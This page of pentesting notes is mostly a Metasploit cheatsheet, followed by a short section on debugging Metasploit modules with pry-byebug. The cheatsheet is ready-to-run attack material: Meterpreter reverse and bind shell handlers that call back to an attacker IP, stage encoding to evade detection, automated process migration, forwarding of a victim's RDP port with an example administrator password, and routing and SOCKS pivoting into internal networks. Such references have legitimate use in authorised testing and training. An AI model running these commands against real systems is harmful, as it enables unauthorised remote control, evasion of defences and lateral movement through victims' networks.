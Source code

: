 # Metasploit

* [https://buffered.io/posts/staged-vs-stageless-handlers/](https://buffered.io/posts/staged-vs-stageless-handlers/)
* [https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
* [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation)




## Cheatsheet

Quick handler launch:

```
msf > handler -H eth0 -P 443 -p windows/x64/meterpreter/reverse_https [-e x64/xor] [-x]
```

Bind RC4 handler through SOCKS proxy:

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp_rc4
msf exploit(multi/handler) > set rhosts 127.0.0.1
msf exploit(multi/handler) > set lport 1337
msf exploit(multi/handler) > set rc4password Passw0rd!
msf exploit(multi/handler) > set proxies socks5:127.0.0.1:1080
msf exploit(multi/handler) > run
```

Change meterpreter shell transport:

```
meterpreter > transport add -t reverse_tcp -l 10.10.13.37 -p 9002
meterpreter > transport list
msf > handler -H eth0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
meterpreter > transport next
```

Automation (about `exploit` options [here](https://github.com/rapid7/metasploit-framework/blob/4049c41ac1b6f12566b055dc5442192072ea5d78/lib/msf/ui/console/command_dispatcher/exploit.rb#L17-L27)):

```
// auto.rc
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 10.10.13.37
set lport 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -jz
```

```
$ sudo msfconsole -qr auto.rc
```

Reverse local port `3389` (on Victim, `10.10.13.37`) to local port `43389` (on Attacker):

```
meterpreter > portfwd add -l 43389 -p 3389 -r 10.10.13.37
[*] Local TCP relay created: :43389 <-> 10.10.13.37:3389
$ xfreerdp /u:administrator /p:'Passw0rd!' /v:127.0.0.1:43389
```

Routing:

```
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
Or
msf5 > route add 192.168.10.0/24 1
msf5 > route
```

Start SOCKS server (default is SOCKS5):

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```




## Debug

1. [https://github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)
2. [https://www.youtube.com/watch?v=QzP5nUEhZeg&t=2190](https://www.youtube.com/watch?v=QzP5nUEhZeg&t=2190)

```
$ gem install pry-byebug
$ vi ~/.pry-byebug
...
```

```ruby
if defined?(PryByebug)
  Pry.commands.alias_command 'c', 'continue'
  Pry.commands.alias_command 's', 'step'
  Pry.commands.alias_command 'n', 'next'
  Pry.commands.alias_command 'f', 'finish'
end

 # Hit Enter to repeat last command
Pry::Commands.command /^$/, "repeat last command" do
  _pry_.run_command Pry.history.to_a.last
end
```

```
...
$ cp -r /usr/share/metasploit-framework/ /opt
$ vi /opt/metasploit-framework/msfconsole
...add "require 'pry-byebug'"...
$ mkdir -p ~/.msf4/modules/exploits/linux/http/
$ cp /usr/share/metasploit-framework/modules/exploits/linux/http/packageup.rb ~/.msf4/modules/exploits/linux/http/p.rb
$ vi ~/.msf4/modules/exploits/linux/http/p.rb
...add "binding.pry"...
```
